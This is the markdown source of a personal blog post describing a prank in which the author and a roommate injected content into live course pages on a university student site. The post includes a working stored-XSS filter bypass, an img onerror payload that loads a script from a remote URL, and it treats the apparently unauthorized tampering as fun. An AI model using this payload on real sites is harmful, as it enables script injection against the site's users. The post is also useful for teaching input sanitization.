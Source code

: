 ```yaml
---
layout: default
title: Skule Security Sillyness
permalink: /evaluations/skulecourses/index.html
---
```

My room mate [Zhuowei](http://zhuoweizhang.net) and I explored how secure [Skule's (U of T Engineering) courses page](http://courses.skule.ca) is,  
since it is host to supposed past exams that most U of T students download without a second thought.  

This was done mostly for fun and curiosity, with no malicious intent; **preserving the pages' usability was a primary concern**.  

The pages that were pranked include: [CSC180](http://courses.skule.ca/course/?q=CSC180H1) | [ESC103](http://courses.skule.ca/course/?q=ESC103H1) | [PHY180](http://courses.skule.ca/course/?q=PHY180H1)  
In case those pages were taken down, you can see the scripts in action: [Sample ESC103](esc103.html) | [Sample PHY180](phy180.html)  

Message to all readers and possibly maintainers of Skule:  
Please sanitize input boxes before injecting content into the page; it's too easy for someone to insert an \<a\> tag redirecting to a malicious site!  

## Injecting Code (the clever part)
--------------------------------
Before altering the actual course pages, an illegitimate course was created to allow prototyping.  
Skule's search cannot find the course, but direct access through URL allows access to upload and view.  

The first page to be "improved" was CSC180, which had an iframe element injected through the "Display As" field.  
Apparently **no sanitation of inputs is done...**  

<div class="frames">
<img src="dirtyinputs.png">
<p>They protect against spam... But what of dirty injections!?!</p>
</div>

The code for the CSC180 page was written by Zhuowei while I wrote the code for the ESC103 page.  
The PHY180 page's GravityScript was written by Google and we simply embedded it into the page using the method below.  

The embedding for the CSC180 page was trivial since no scripting was required,  
but adding a script for the ESC103 and PHY180 pages were much more difficult.  

Just adding a \<script\> element didn't work.   
`<script src="some pastebin url"> </script>` 
After exhausting the possibilities by splitting the string up and concatenating them like `"<scr" + "ipt>"` and escaping the characters like  
`&quot;&lt;scr&quot; + &quot;ipt&gt;&quot;` we determined that the input ate script tags, apparently.  

Our workaround was to use an impossible to load \<img\> element that points to our script with its onerror attribute.
`<img onerror="a=document.createElement(&quot;script&quot;);a.src=&quot;url to our code&quot;;document.body.appendChild(a)" src="http://localhost:1">`  

It will always load my script because http://localhost:1 as an image can never load!

## Javascript (the dumb part)
-------------------------
I took this as an opportunity to get familiar with Javascript, seeing as I recently learned HTML and CSS for this portfolio.  
Gaining proficiency in JS will complete my skill set as a web developer, which will be widely useful since the web is becoming a larger distributor of applications.  
Web apps are robust in being 100% cross-platform, requiring just a browser to function on any OS and device, compatible with my philosophy for robustness.  

The idea was to create an effect that was immediately noticeable yet is easy to turn off to preserve usability.  
Seeing as this was our linear algebra course, I went with rotating the page, which is a linear transformation :D.  
A large button was placed in the centre of the page to make it easy for people to return the page to normal since its location will stay still.
<pre><code>var timer = setInterval(transform,50);
var degreez = 0;
var allSet = false;
var bellybutton;
function transform(){
	if (!allSet) {
		var transOrigin = "50% 50%";
		document.body.parentElement.style.height = "100%";
		document.body.style.minHeight = "100%";
		document.body.style.transformOrigin = transOrigin;
		document.body.style.webkitTransformOrigin = transOrigin;
		document.body.style.mozTransformOrigin = transOrigin;
		bellybutton = document.createElement("button");
		bellybutton.innerHTML = "CLICK TO STOP PUKING";
		bellybutton.style.position = "absolute";
		bellybutton.style.left = "45%";
		bellybutton.style.top =  "45%";
		bellybutton.style.width = "10%";
		bellybutton.style.height =  "10%";
		document.body.appendChild(bellybutton);
		bellybutton.onclick = stoppuking;
		allSet = true;
	}
	var transString = "rotate(" + degreez + "deg)";
	document.body.style.transform = transString;
	document.body.style.webkitTransform = transString;
	document.body.style.mozTransform = transString;
	degreez += 1;
}
function stoppuking(){
	clearInterval(timer);
	var transString = "";
	document.body.style.transform = transString;
	document.body.style.webkitTransform = transString;
	document.body.style.mozTransform = transString;
	document.body.removeChild(bellybutton);
}
</code></pre>

This code was designed to work on all browsers and devices (webkit, moz, and unnamed),  
and a button was chosen because it can be clicked on all devices, whereas some other mechanisms  
such as onhover aren't mobile compatible.  

Lastly, I'll leave how we changed the years to an arbitrary number as an anagram, decode it if you can:  
a cad ed retelevise fill unlit  (It is in English, has 1 verb, 1 noun, and 3 adjectives)

## Gains from Experience
---------------------------
- Javascript experience and interest in web development
- Appreciation of sanitizing inputs
- Knowledge of this issue to Skule maintainers that they may fix it
- Fun :D
